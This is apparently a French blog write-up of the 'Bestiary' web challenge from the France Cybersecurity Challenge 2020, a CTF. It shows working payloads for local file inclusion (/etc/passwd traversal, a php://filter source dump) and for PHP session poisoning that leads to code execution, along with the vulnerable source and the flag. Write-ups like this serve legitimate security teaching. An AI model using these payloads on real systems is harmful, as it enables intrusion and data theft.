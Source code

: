 ```yaml
---
title: FCSC 2020 - Web - Bestiary
excerpt: Write-up du challenge web Bestiary du France Cybersecurity Challenge 2020
tags: [CTF, FCSC, writeup, web]
categories: Write-ups
comments: true
---
```


<img src="/img/fcsc_logo.png" width="300" class="center-image">
Le France CyberSecurity Challenge est une compétition en ligne organisée par l’Agence National de la Sécurité des Systèmes d’Informations (ANSSI). Ce CTF a pour but de préselectionner 30 joueurs: 15 juniors (entre 15 et 20 ans) et 15 seniors (entre 21 et 25 ans).
<hr>
![Challenge](/img/fcsc_bestiary.PNG){: .center-image} 

Bestiary a été mon challenge préféré, l'exploitation de la LFI était très intéressante !  

C'est un site où l'on peut simplement effectuer des recherches sur des monstres.

![Home](/img/fcsc_home.PNG){: .center-image} 

On devine assez rapidement que la paramètre 'monster' de la requête GET est à injecter.  
On test un payload classique pour voir s'il est possible d'avoir une LFI : 
```
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=../../../../etc/passwd
```

![LFI](/img/fcsc_lfi_etc.PNG){: .center-image}

On à donc une LFI :)  
On tente d'afficher le code source avec un filter PHP.
```
http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php
```

![Base](/img/fcsc_bestiary_base.PNG){: .center-image}

On décode tout ça en base64 et on obtient le code source la page `index.php` :
```php
<?php
	session_save_path("./sessions/");
	session_start();
	include_once('flag.php');
?>
<html>
<head>
	<title>Bestiary</title>
</head>
<body style="background-color:#3CB371;">
<center><h1>Bestiary</h1></center>
<script>
function show()
{
	var monster = document.getElementById("monster").value;
	document.location.href = "index.php?monster="+monster;
}
</script>

<p>
<?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
?>
</p>

<select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
</select> 
    <input type="button" value="show description" onclick="show()">
    <div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
</body>
</html>
```

En analysant le code source, on remarque plusieurs choses intéressantes :
*	La fonction `strpos()` est utilisée pour vérifier que le payload ne contienne pas la chaîne de caractères "flag"
*	Le répertoire où sont stockées les sessions est spécifié "en dur" via la fonction `session_save_path()`, alors qu'habituellement, ces dernières sont stockées ...
*	Le flag est stocké dans le fichier `flag.php`

Pour accéder à une session, il faut rajouter le préfix `sess_` au numéro de session stockées dans notre navigateur.  
*Par exemple, j'avais la session c70091bbb2c30521812c43b37040255a, sur le serveur, la session est stockée dans le fichier /sessions/sess_c70091bbb2c30521812c43b37040255a*

![Session](/img/fcsc_bestiary_session.PNG){: .center-image}

On peut voir le contenu de ma session sur la capture d'écran ci-dessus.   
Comme en PHP, tout fichier inclut via la fonction `include()` est traité comme un fichier PHP, on va pouvoir injecter du code PHP dans le cookie PHPSESSID afin de le faire exécuter au serveur lorsque l'on va accéder à la session.  

Je vais utiliser le payload suivant pour lire le fichier contenant le flag : 
```php
<?php var_dump(file_get_contents(base64_decode('ZmxhZy5waHA='))); ?>
```  
J'ai encodé le nom du fichier en base64 à cause de la fonction `strpos()` qui détecte si la chaîne "flag" est présente dans le paramètre GET 'monter'.   
J'injecte donc ce payload dans ma session en effectuant la requête suivante : 
```
http://challenges2.france-cybersecurity-challenge.fr:5004//index.php?monster=%3C?php%20var_dump(file_get_contents(base64_decode(%27ZmxhZy5waHA=%27)));%20?%3E
```

À ce stage, il ne me reste plus qu'à inclure le fichier contenant les informations de ma session, afin que le code PHP soit exécuté.
```
http://challenges2.france-cybersecurity-challenge.fr:5004//index.php?monster=sessions/sess_c70091bbb2c30521812c43b37040255a
```

On affiche les sources et voilà !  

![FLAG](/img/fcsc_bestiary_flag.PNG){: .center-image}

Flag **FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}**